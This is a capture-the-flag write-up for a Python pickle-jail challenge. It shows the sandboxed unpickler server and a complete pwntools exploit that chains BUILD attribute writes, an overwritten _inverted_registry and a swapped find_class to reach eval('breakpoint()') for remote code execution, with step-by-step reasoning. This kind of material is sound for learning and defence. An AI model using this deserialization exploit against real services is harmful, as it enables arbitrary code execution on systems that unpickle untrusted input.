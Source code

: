 # You shall not call Revenge

## challenge

Never have I seen a pickle, worming its way out of a jail, whose exploitation did not rely upon the calling of some nefarious function. Thus, I hereby declare: there shall be no call heeded within this domain anymore. It is for I yearn the secure confinement of pickles; and shall not stand their escape.

The server isn't changed, but you must get RCE to read flag this time.

server.py
```py
#!/usr/bin/env python3

import __main__
import pickle
import io

# Security measure -- forbid calls
for op in ['reduce', 'inst', 'obj', 'newobj', 'newobj_ex']: #pickle.REDUCE, pickle.INST, pickle.OBJ, pickle.NEWOBJ, pickle.NEWOBJ_EX]:
    id = getattr(pickle, op.upper())[0]
    delattr(pickle._Unpickler, pickle._Unpickler.dispatch[id].__name__)
    pickle._Unpickler.dispatch[id] = lambda _: print("Stop right there, you heineous criminal!") or exit()

# Security measure -- remove dangerous class and method
del pickle.Unpickler
del pickle._Unpickler.find_class

# Security measure -- overload unpickler with an actually secure class
class SecureUnpickler(pickle._Unpickler):
    def find_class(self, _: str, name: str) -> object:
        # Security measure -- prevent access to dangerous elements
        for x in ['exe', 'os', 'break', 'set', 'eva', 'help', 'sys', 'load', 'open', 'dis']:
            if x in name:
                print("Smuggling contraband in broad daylight?! Guards!")
                break
        # Security measure -- only the main module is a valid lookup target
        else:
            return getattr(__main__, name)

# Security measure -- remove dangerous magic
for k in list(globals()):
    if '_' in k and k not in ['__main__', '__builtins__']:
        del globals()[k]

# Security measure -- remove dangerous magic
__builtins__ = { k: getattr(__builtins__, k) for k in dir(__builtins__) if '_' not in k }

# My jail is very secure!
data = io.BytesIO(bytes.fromhex(input('$ ')))
SecureUnpickler(data).load()
```

there is also a readflag binary in some directory idk where but it is just to check that rce has been achieved

## solution

this one was enjoyable

the premise of this challenge was that we cant call any functions normally

```py
from pwn import *
from pickle import *

# for k in __main__.__builtins__:
#     setattr(__main__.__main__, k, __main__.__builtins__[v])
p = GLOBAL + b'__main__\n__main__\n' + PUT + b'1\n' + NONE + GLOBAL + b'__main__\n__builtins__\n' + TUPLE2 + BUILD

p += GLOBAL + b'__main__\nSecureUnpickler\n' + PUT + b'2\n'
p += GLOBAL + b'__main__\ngetattr\n' + PUT + b'3\n'

# pickle._inverted_registry = {0: [__main__.__main__, 'eval'], 1: 'breakpoint()'}
p += GLOBAL + b'__main__\npickle\n' + NONE + MARK + UNICODE + b'_inverted_registry\n' + MARK + INT + b'0\n' + MARK + GET + b'1\n' + UNICODE \
        + b'eval\n' + LIST + INT + b'1\n' + MARK + UNICODE + b'breakpoint()\n' + LIST + DICT + DICT + TUPLE2 + BUILD

# SecureUnpickler.find_class = getattr
p += GET + b'2\n' + NONE + MARK + UNICODE + b'find_class\n' + GET + b'3\n' + DICT + TUPLE2 + BUILD

# SecureUnpickler.find_class(*pickle._inverted_registry[0])
p += EXT1 + b'\x00' + PUT + b'4\n'  # we have access to eval now

# SecureUnpickler.find_class = eval
p += GET + b'2\n' + NONE + MARK + UNICODE + b'find_class\n' + GET + b'4\n' + DICT + TUPLE2 + BUILD + POP

# eval('breakpoint()')
p += EXT1 + b'\x01' + STOP

io = process(['python3', 'chall.py'])
io.sendline(p.hex().encode())
io.interactive()
```

the way that this worked was that we could first do a standard module-submodule builtins grab by using the `GLOBAL` opcode to do `getattr(__main__, "__main__")` and then 
also `getattr(__main__, "__builtins__")` and then building the dict (build opcode has almost arbitrary setattr)

then, we can store the `__main__.SecureUnpickler` class in the memo for later use. since we built the builtins dict onto the main module, we can also store the `getattr` function since it is not blocked by `find_class`

next, we can overwrite functions of SecureUnpickler because then the pickle implementation in pickle.py (i guess it would be _pickle.c but same thing pretty much) will call those functions. this is how we can end up calling functions

since eval, exec, and breakpoint are blocked (and there is no `license` function cheese), we need to get the return value of a function like `getattr(__main__.__main__, 'eval')` to be able to get RCE

notably, it is hard to get the return value of functions. i tried exploiting some of the obvious opcodes like `SHORT_BINSTRING`, since it calls `_decode_string`. by overwriting the _decode_string of SecureUnpickler, we could just call any function and get the return value, right?

```py
    def _decode_string(self, value):
        # Used to allow strings from Python 2 to be decoded either as
        # bytes or Unicode strings.  This should be used only with the
        # STRING, BINSTRING and SHORT_BINSTRING opcodes.
        if self.encoding == "bytes":
            return value
        else:
            return value.decode(self.encoding, self.errors)
...

    def load_binstring(self):
        # Deprecated BINSTRING uses signed 32-bit length
        len, = unpack('<i', self.read(4))
        if len < 0:
            raise UnpicklingError("BINSTRING pickle has negative byte count")
        data = self.read(len)
        self.append(self._decode_string(data))   # THIS LINE RIGHT HERE
    dispatch[BINSTRING[0]] = load_binstring
```

(taken from [here](https://github.com/python/cpython/blob/3.10/Lib/pickle.py#L1322C1-L1348C44))

it is not possible to exploit this however since the input to the _decode_string function is bytes, and very few useful builtin functions accept byte inputs.

we can actually exploit the ext opcodes here

```py
    def get_extension(self, code):
        nil = []
        obj = _extension_cache.get(code, nil)
        if obj is not nil:
            self.append(obj)
            return
        key = _inverted_registry.get(code)
        if not key:
            if code <= 0: # note that 0 is forbidden
                # Corrupt or hostile pickle.
                raise UnpicklingError("EXT specifies code <= 0")
            raise ValueError("unregistered extension code %d" % code)
        obj = self.find_class(*key)  # THIS LINE RIGHT HERE
        _extension_cache[code] = obj
        self.append(obj)
```

(taken from [here](https://github.com/python/cpython/blob/3.10/Lib/pickle.py#L1556C1-L1570C25))

this function is called by all of the ext opcode implementations

notably, this function takes stuff from the inverted registry, which is empty by default. we can overwrite the inverted registry by doing our build setattr on the pickle module. this is pretty easy since the pickle module is retrievable from find_class.

so, with the pickle module, we overwrite the inverted registry with `{0: [__main__.__main__, 'eval'], 1: ['breakpoint()']}`. the idea with this is that we can overwrite self.find_class to be whatever, and then call any function with any arguments.

next, we overwrite the find_class with getattr so that we can get the eval attribute on the main module. then, we use the ext1 opcode to do the function call and get the eval function

we do that find_class overwrite once more with eval instead, and then `eval('breakpoint')`

## other thinkings

it may or may not be possible to use the dumps function and overwriting attributes of Pickler to overcome this, but likely it is not possible to do it that way (i am not willing to test this right now)
